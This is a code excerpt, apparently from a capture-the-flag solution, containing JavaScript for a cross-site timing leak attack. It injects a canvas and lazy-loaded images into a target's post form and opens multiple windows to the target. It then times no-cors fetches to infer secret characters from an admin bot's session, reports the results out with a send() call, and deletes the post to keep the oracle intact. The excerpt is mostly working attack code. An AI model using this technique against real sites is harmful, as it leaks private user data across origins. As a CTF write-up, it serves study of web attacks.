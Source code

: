 ```html
      return new Promise(resolve => {
          /*
            For 3350, you need to test it on your local to get this number.
            The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
            If starts with "A", the image should be loaded because it's in the threshold.
          */
          inp.value = str + '<br><canvas height="3350px"></canvas><br>'+Array.from({length:20}).map((_,i)=>`<img loading=lazy src=/?${i}>`).join('')
          f.submit()

          setTimeout(() => {
            run(str, resolve)
          }, 500)
      })
    }

    async function run(str, resolve) {
    // if the request is not enough, we can send more by opening more window
      for(let i=1; i<=5;i++) {
        window.open(TARGET)
      }
      
      let t = 0
      const round = 30
      setTimeout(async () => {
        for(let i=0; i<round; i++) {
          let s = performance.now()
          await fetch(TARGET + '/?test', {
            mode: 'no-cors'
          }).catch(err=>1)
          let end = performance.now()
          t += end - s
          console.log(end - s)
        }
        const avg = t/round
        send(str + "," + t + "," + "avg:" + avg)

        /*
          I get this threshold(1000ms) by trying multiple times on remote admin bot
          for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
        */
        const isFound = (t >= 1000)
        if (isFound) {
          inp2.value = "0"
        } else {
          inp2.value = "1"
        }

        // remember to delete the post to not break our leak oracle
        f2.submit()
        setTimeout(() => {
          resolve(isFound)
        }, 200)
      }, 200)
    }
    
  </script>

</body>

</html>
```